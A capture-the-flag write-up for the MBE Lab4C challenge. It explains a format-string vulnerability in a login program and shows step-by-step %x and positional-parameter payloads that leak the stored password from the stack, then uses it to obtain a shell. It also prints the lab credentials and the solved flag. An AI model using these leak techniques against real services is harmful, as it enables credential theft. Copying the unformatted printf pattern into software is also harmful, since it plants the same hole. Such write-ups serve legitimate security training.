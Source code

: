```yaml
---
title: "Lab4C Write-up (Easy)"
permalink: /writeups/mbe/lab4c/
excerpt: "Write-up for Lab4c."
---
```


---
MBE's **Lab04** is focused on format strings. First, log into the Lab04 as **Lab4C** (`lab4C:lab04start`) and go to the challenges folder:

```shell
$ ssh lab4C@<VM_IP>
$ cd /levels/lab04/
```

Let's execute the program:

```shell
lab4C@warzone:/levels/lab04$ ./lab4C 
===== [ Secure Access System v1.0 ] =====
-----------------------------------------
- You must login to access this system. -
-----------------------------------------
--[ Username: Test
--[ Password: Pass
-----------------------------------------
Test does not have access!
```

This program asks for a *username* and a *password*, but we don't have these credentials.

## Source Code Analysis

As a reminder, the behavior of the [printf()](https://cplusplus.com/reference/cstdio/printf/) function is controlled by the **format specifiers**. The function retrieves the parameters requested by the format specifier from the stack.

```c
printf("You are so %d !\n", 1337);
```

This format specifier defines the type of conversion of the format function, here a decimal (or `%d`). But if you try to print a variable without specifying the format string, you could get in trouble...

```c
printf(user);
```

Here, if the variable contains a username, it'll print the username. But if it contains a format specifier like **%x**, the application will fetch a value from the stack, treat this value as an address, and print out the memory contents pointed by this address as a string, until a NULL character is encountered. Of course, if the pointer is not valid or if the address is memory protected (i.e. a kernel address), the program will crash.

Now, the source code :

```c
#define PASS_LEN 30

int main(int argc, char *argv[])
{
    char username[100] = {0};
    char real_pass[PASS_LEN] = {0};
    char in_pass[100] = {0};
    FILE *pass_file = NULL;
    int rsize = 0;

    /* open the password file */
    pass_file = fopen("/home/lab4B/.pass", "r");
    if (pass_file == NULL) {
        fprintf(stderr, "ERROR: failed to open password file\n");
        exit(EXIT_FAILURE);
    }

    /* read the contents of the password file */
    rsize = fread(real_pass, 1, PASS_LEN, pass_file);
    real_pass[strcspn(real_pass, "\n")] = '\0';  // strip \n
    if (rsize != PASS_LEN) {
        fprintf(stderr, "ERROR: failed to read password file\n");
        exit(EXIT_FAILURE);
    }

    /* close the password file */
    fclose(pass_file);

    puts("===== [ Secure Access System v1.0 ] =====");
    puts("-----------------------------------------");
    puts("- You must login to access this system. -");
    puts("-----------------------------------------");

    /* read username securely */
    printf("--[ Username: ");
    fgets(username, 100, stdin);
    username[strcspn(username, "\n")] = '\0';    // strip \n

    /* read input password securely */
    printf("--[ Password: ");
    fgets(in_pass, sizeof(in_pass), stdin);
    in_pass[strcspn(in_pass, "\n")] = '\0';      // strip \n

    puts("-----------------------------------------");

    /* log the user in if the password is correct */
    if(!strncmp(real_pass, in_pass, PASS_LEN)){
        printf("Greetings, %s!\n", username);
        system("/bin/sh");
    } else {
        printf(username);
        printf(" does not have access!\n");
        exit(EXIT_FAILURE);
    }

    return EXIT_SUCCESS;
}
```

First, we have to locate the format string vulnerability. It's right here :

```c 
if(!strncmp(real_pass, in_pass, PASS_LEN)){
        printf("Greetings, %s!\n", username);
        system("/bin/sh");
    } else {
        printf(username);
        printf(" does not have access!\n");
        exit(EXIT_FAILURE);
    }
```

The *printf()* function for **username** does not provide any format specifier. Let's try to exploit that:

```shell
lab4C@warzone:/levels/lab04$ ./lab4C 
===== [ Secure Access System v1.0 ] =====
-----------------------------------------
- You must login to access this system. -
-----------------------------------------
--[ Username: %x
--[ Password: blah
-----------------------------------------
bffff5a2 does not have access!
```

We can even get more data!

```shell
lab4C@warzone:/levels/lab04$ ./lab4C 
===== [ Secure Access System v1.0 ] =====
-----------------------------------------
- You must login to access this system. -
-----------------------------------------
--[ Username: %x.%x.%x.%x
--[ Password: Blah
-----------------------------------------
bffff5a2.1e.804a008.6c420000 does not have access!
```

## Dynamic Analysis

Here, dynamic analysis will be a bit complex because of the following piece of code:

```c
pass_file = fopen("/home/lab4B/.pass", "r");
if (pass_file == NULL) {
      fprintf(stderr, "ERROR: failed to open password file\n");
      exit(EXIT_FAILURE);
}
```

By running that code into `gdb` it'll keep exiting as we won't be able to get the privileges of **lab3B** in the debugger. But we don't really need to debug the code!

As we can read what's stored on the stack, and because of the following comparison, the value of **real_pass** is already stored in memory. We just need to keep reading the stack until it reaches the value **real_pass**.

```c 
if(!strncmp(real_pass, in_pass, PASS_LEN)){
        printf("Greetings, %s!\n", username);
        system("/bin/sh");
    } else {
        printf(username);
        printf(" does not have access!\n");
        exit(EXIT_FAILURE);
    }
```

How to know if it is the password? Easy, it'll look like hexadecimal ASCII values :)

```shell
lab4C@warzone:/levels/lab04$ ./lab4C 
===== [ Secure Access System v1.0 ] =====
-----------------------------------------
- You must login to access this system. -
-----------------------------------------
--[ Username: %x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x 
--[ Password: -----------------------------------------
bffff5a2.1e.804a008.78250000.2e78252e.252e7825.78252e78.2e78252e.252e7825.78.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.75620000.74315f37.7334775f.625f376e.33745572. does not have access!
```

See that: "75620000.74315f37.7334775f.625f376e.33745572", it does look like ASCII in hex. Let's try to convert it to readable ASCII without: **ubt1_7s4w_b_7n3tUr**. However, it's not complete. As, **username** is only 100 bytes long, we cannot read further on the stack. But we can set a positional parameter to a format specifier! It'll look like this:  **%\<pos\>$x**.

```shell
lab4C@warzone:/levels/lab04$ ./lab4C 
===== [ Secure Access System v1.0 ] =====
-----------------------------------------
- You must login to access this system. -
-----------------------------------------
--[ Username: %26$x.%27$x.%28$x.%29$x.%30$x.%31$x.%32$x.%33$x.%34$x.%35$x.%36$x.%37$x.%38$x.%39$x.%40$x.%41$x
--[ Password: 
-----------------------------------------
0.0.0.75620000.74315f37.7334775f.625f376e.33745572.7230665f.62343363.216531.24363225.32252e73.2e782437.24383225.32252e78 does not have access!
```

Looks good, now we have to reverse it! You take each 4 bytes, convert it to ASCII and reverse the order of the letters. For example, **75620000** = **ub**, then reverse = **bu**. It did it manually...

## Solution

Now, we can solve this challenge!

```shell
lab4C@warzone:/levels/lab04$ ./lab4C 
===== [ Secure Access System v1.0 ] =====
-----------------------------------------
- You must login to access this system. -
-----------------------------------------
--[ Username: Blah
--[ Password: bu7_1t_w4sn7_brUt3_f0rc34b1e!
-----------------------------------------
Greetings, Blah!
$ whoami
lab4B
$ cat /home/lab4B/.pass
bu7_1t_w4sn7_brUt3_f0rc34b1e!
```

You can go to the next [challenge](/writeups/mbe/lab4b/)!
